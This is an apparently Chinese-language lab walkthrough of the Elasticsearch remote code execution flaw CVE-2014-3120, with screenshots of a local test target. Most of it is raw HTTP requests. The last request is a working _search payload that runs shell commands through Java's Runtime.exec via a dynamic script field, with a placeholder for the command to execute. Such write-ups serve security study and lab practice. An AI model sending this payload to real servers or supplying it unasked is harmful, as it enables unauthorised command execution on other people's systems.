elasticsearch 代码执行 (CVE-2014-3120)

描述: Elasticsearch是一个基于Lucene的搜索服务器。它提供了一个分布式多用户能力的全文搜索引擎，基于RESTful web接口。 ElasticSearch 1.2版本之前支持动态脚本。漏洞是通过_search方法的参数传入恶意代码，远程执行任意MVEL表达式和Java代码

访问目标

漏出信息

![image-20211017201241873](https://cd-1307445315.cos.ap-nanjing.myqcloud.com/CD%5Cimage-20211017201241873.png)

依此抓包创建信息

![image-20211017201414148](https://cd-1307445315.cos.ap-nanjing.myqcloud.com/CD%5Cimage-20211017201414148.png)

```
POST /website/blog/ HTTP/1.1
Host: 192.168.1.192:43662
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/91.0.4472.124 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 27

{
	  "name": "colleget"
}
```

成功



发payload

![image-20211017201658752](https://cd-1307445315.cos.ap-nanjing.myqcloud.com/CD%5Cimage-20211017201658752.png)

```
POST /_search?pretty HTTP/1.1
Host: 192.168.1.192:43662
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/91.0.4472.124 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 369

{
    "size": 1,
    "query": {
      "filtered": {
        "query": {
          "match_all": {
          }
        }
      }
    },
    "script_fields": {
        "command": {
            "script": "import java.io.*;new java.util.Scanner(Runtime.getRuntime().exec(\"ls #这里写命令\").getInputStream()).useDelimiter(\"\\\\A\").next();"
        }
    }
}
    }
}
```

ok

